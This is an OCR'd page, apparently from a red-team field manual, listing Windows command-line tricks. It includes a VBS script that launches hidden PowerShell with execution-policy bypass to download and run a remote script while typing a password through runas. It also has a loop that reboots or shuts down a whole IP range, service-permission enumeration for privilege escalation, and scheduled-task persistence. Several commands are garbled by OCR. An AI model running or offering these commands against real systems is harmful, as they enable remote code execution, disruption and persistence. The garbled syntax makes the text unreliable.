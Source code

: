 
SIMULATE MALICIOUS DOMAIN CALLOUTS (USEFUL FOR AV/IDS TESTING)

# Run packet capture on attack domain to receive callout 
# domains.txt should contain known malicious domains
for /L %i in (0,1,100) do (for /F %n in (domains.txt) do nslookup %n
attack domain	NUL 2 &1 & ping -n 5 12-.0.0.1	NUL 2 &1


IE WEB LOOPER (TRAFFIC GENERATOR)

for /L %C in (1,1,5000) do @for %U in (www.yahoo.com www.pastebin.com www.paypal.com www.craigslist.org www.google.com) do start /b iexplore %U & ping -n 6 localhost & taskkill /F /IM iexplore.exe


GET PERMISSIONS ON SERVICE EXECUTABLES

for /f "tokens=2 delims='='" %a in (1wmic service list full find /i "pathname" ifind Ji /v "system32") do @echo %a c:\windows\temp\3afd4ga.tmp
for /f eol = " delims = " %a in (c:\windows\temp\3afd4ga.tmp) do cmd.exe /c icacls "%a"


ROLLING REBOOT (REPLACE /R WITH /S FOR A SHUTDOWN):

for /L %i in (2,1,254) do shutdown /r In \\1.1.1.%i /f /t 0 /c "Reboot message"


SHELL ESCALATION USING VBS (NEED ELEVATED CREDENTIALS)

# Create .vbs script with the following
Set shell ' wscript.createobject("wscript.shell")
Shell.run "runas /user: user " & """" &
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c \" & "" & "IEX ((New-Object Net.WEbClient).downloadstring(' url '))\" & ""' & wscript.sleep (100)
shell.Sendkeys " password " & "{ENTER}"


TASK SCHEDULER

' Scheduled tasks binary paths CANNOT contain spaces because everything after the first space in the path is considered to be a command-line argument. Enclose the /TR path parameter between backslash -(\) AND quotation marks ("):
... /TR "\"C:\Program Files\file.exe\" -x arg1"


TASK SCHEDULER (ST=START TIME, SD=START DATE, ED=END DATE) *MUST BE ADMIN

SCHTASKS /CREATE /TN Task Name /SC HOURLY /ST HH:14114 /F /RL HIGHEST /SD MV/DD/YYYY /ED MM/DD/YYYY /tr "C:\my.exe" /RU DOMAIN\user /RP password


TASK SCHEDULER PERSISTENCE [10]

For 64 bit use:
"C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe"
